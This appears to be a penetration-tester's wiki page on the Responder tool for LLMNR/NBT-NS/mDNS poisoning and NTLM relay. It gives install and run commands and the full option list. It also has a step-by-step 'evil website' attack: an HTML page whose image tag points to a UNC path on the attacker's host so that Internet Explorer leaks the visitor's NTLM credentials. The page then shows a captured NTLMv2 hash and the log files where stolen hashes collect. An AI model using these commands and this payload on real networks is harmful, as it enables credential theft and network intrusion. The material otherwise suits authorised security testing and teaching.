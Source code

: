 ```yaml
---
title : "Responder"
# pre : ' '
description : "LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay."
date : 2020-03-11T15:08:07+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## Responder

LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

## Installation

```plain
git clone https://github.com/lgandx/Responder.git
```

## Usage

Disable UFW before using.

```plain
python3 Responder.py -I eth0 -w -r -f
```

## Flags

```plain
Usage: python ./Responder.py -I eth0 -w -r -f
or:
python ./Responder.py -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

## Examples

{{%attachments fa_icon_class="far fa-file-video" pattern="responder.mp4"/%}}

### Analyse mode

```plain
sudo ./Responder.py -I <interface> -A -v
```

### Full mode

```plain
sudo ./Responder.py -I <interface> -w -F --lm -v
```

### Evil website

Works on:

* Internet Explorer 8 (8.0.7600.16385, Windows 7)
* Internet Explorer 8 (8.0.7601.17514, Windows Server 2008R2)
* Internet Explorer 11 (11.719.18362.0, Windows 10)
* Internet Explorer 11 (11.2273.14393.0, Windows Server 2016)
* Internet Explorer 11 (11.1098.17763.0, Windows Server 2019)

Does not work on:

* Microsoft Edge (44.18362.449.0 Windows 10)
* Google Chrome (80.0.3987.149, Windows 10)
* Brave (1.5.115, Windows 10)
* Opera (67.0.3575.115, Windows 10)

### Index.html content

```plain
cat index.html

<html>
<head></head>
<body>
<img src="\\10.10.10.37\picture.jpg" alt=""></img>
</body>
</html>
```

### Host the site

```plain
python3 -m http.server 80
```

### Start responder to catch hashes

```plain
responder -I eth0 -A -f -v
[...]
[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.10.10.37]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[!] Error starting TCP server on port 80, check permissions or other servers running.
[+] Listening for events...
```

### Client browsed to site

![Example](images/example.png)

### Hashes aquired

```plain
[SMB] NTLMv2-SSP Client   : 10.10.10.15
[SMB] NTLMv2-SSP Username : WS7-2\User
[SMB] NTLMv2-SSP Hash     : User::WS7-2:2f5d1007fc42a38e:74DF5D8A06BF0059BCCA1AB300782DED:0101000000000000C0653150DE09D2012E16D14827C3AF5500[...]
```

### Find captured hashes

Folder /logs in the responder folder

```plain
 ~/tools/responder/logs
$ ll
total 22M
-rw-r--r-- 1 root root    0 Jun 19 09:09 Analyzer-Session.log
-rw-r--r-- 1 root root 226K Nov 25 08:55 Config-Responder.log
-rw-r--r-- 1 root root 2.3K Jul  7 10:23 HTTP-NTLMv2-10.0.0.30.txt
-rw-r--r-- 1 root root 1.2K Jul  7 09:06 HTTP-NTLMv2-10.0.0.35.txt
-rw-r--r-- 1 root root 1.2K Oct 26 11:17 HTTP-NTLMv2-10.1.25.122.txt

```

## URL List

- [GitHub.com - Responder](https://github.com/lgandx/Responder)
- [Original DEPRECATED GitHub](https://github.com/SpiderLabs/Responder)
